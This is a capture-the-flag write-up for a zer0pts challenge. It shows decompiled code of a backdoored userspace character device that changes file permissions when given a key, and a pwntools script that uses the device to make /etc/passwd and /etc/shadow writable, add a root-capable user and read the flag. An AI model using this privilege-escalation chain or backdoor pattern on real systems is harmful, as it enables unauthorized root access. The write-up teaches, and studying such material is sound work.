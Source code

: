 The binary creates a CUSE (userspace character device) with a `write` function that allows other files' permissions to be changed. Decompiled code from ghidra:

```C
  str = strndup(data,lenData);
  if (str == (char *)0x0) {
    fuse_reply_err(param_1,0x16);
    goto LAB_00100c8c;
  }
  // partition string by ':'
  keystr = strtok(str,":");
  filestr = strtok((char *)0x0,":");
  modestr = strtok((char *)0x0,":");
  if (((keystr == (char *)0x0) || (filestr == (char *)0x0)) || (modestr == (char *)0x0)) {
    fuse_reply_err(param_1,0x16);
  }
  else {
    // check the key
    iVar1 = strncmp(keystr,"b4ckd00r",8);
    if (iVar1 == 0) {
      // check that the file is a regular file
      stat64(filestr,&local_a8);
      if ((local_a8.st_mode & 0xf000) == 0x8000) {
        // change the file permissions
        __mode = atoi(modestr);
        iVar1 = chmod(filestr,__mode);
        if (iVar1 == 0) {
          fuse_reply_write(param_1,lenData,lenData);
          goto LAB_00100c7d;
        }
      }
      fuse_reply_err(param_1,0x16);
    }
    else {
      fuse_reply_err(param_1,0x16);
    }
  }
LAB_00100c7d:
  free(str);
```

The flag is located in `/root`, however directory permissions can't directly be modified by this backdoor. The user (`1000`)doesn't exist in `/etc/passwd`, so `sudo` doesn't work. The required entry can be added to `/etc/passwd` and a password in `/etc/shadow`, following which `sudo` works:

```python3
from pwn import *
from pow import solve
import re

r = remote("any.ctf.zer0pts.com", 11011)

# solve hash challenge
s = r.recvline().decode().strip()

print(s)
k = solve(*re.search(r'\?([^?"]+).+= (.+)', s).groups(1))
print(k)
r.sendline(k)

# change permissions via the backdoor
def chperm(filename, perm):
    r.sendline(f'echo "b4ckd00r:{filename}:{perm}:aa" > /dev/backdoor')

# set passwd to be modifiable
r.recvuntil("$")
chperm("/etc/passwd", 0o777)
# set shadow to be modifiable
r.recvuntil("$")
chperm("/etc/shadow", 0o777)

# add user
r.recvuntil("$")
r.sendline('echo "somebody:x:1000:1000:/root:/bin/sh" >> /etc/passwd')

# add password "test"
# hash generated with "mkpasswd --method=SHA-512 --stdin"
r.recvuntil("$")
r.sendline("echo 'somebody:$6$D0ieRmN5ytA316be$eDuS3agMCnMdvl6hbsD.yLrjXkrxQPMmM/21xuR91uGKS7G1MmQV7K1BRestbL4C8TW91AZqOX/6CxbqNWKUV1:12::::::' >> /etc/shadow")

# get root
r.recvuntil("$")
r.sendline("sudo -s")
r.recvuntil(":")
r.sendline("test") # password

# print flag
r.recvuntil("#")
r.sendline("cat /root/flag*")
r.recvline()
print(r.recvline().decode().strip())
# zer0pts{exCUSE_m3_bu7_d0_u_m1nd_0p3n1ng_7h3_b4ckd00r?}
```
